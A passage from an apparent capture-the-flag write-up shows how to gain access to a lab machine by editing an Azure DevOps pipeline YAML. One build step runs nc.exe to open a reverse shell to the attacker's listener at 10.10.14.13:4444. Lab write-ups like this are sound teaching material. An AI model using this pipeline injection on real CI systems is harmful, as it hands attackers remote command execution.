 Replace it with this:

```yaml
# Starter pipeline
# Start with a minimal pipeline that you can customize to build and deploy your code.
# Add steps that build, run tests, deploy, and more:
# https://aka.ms/yaml

trigger:
- master

pool: 'Setup'

steps:
- script: C:\Windows\Tasks\nc.exe -e cmd.exe 10.10.14.13 4444 # install nc.exe
  displayName: 'shell'
```

The reason we need to change the Pool is because there is no pool named 'Default', but there is one called Setup. This can be enumerated in Project Settings:

<figure><img src="../../../.gitbook/assets/image (214).png" alt=""><figcaption></figcaption></figure>

Once we run it, we would get a reverse shell once the command executes.

<figure><img src="../../../.gitbook/assets/image (152).png" alt=""><figcaption></figcaption></figure>

Rooted!
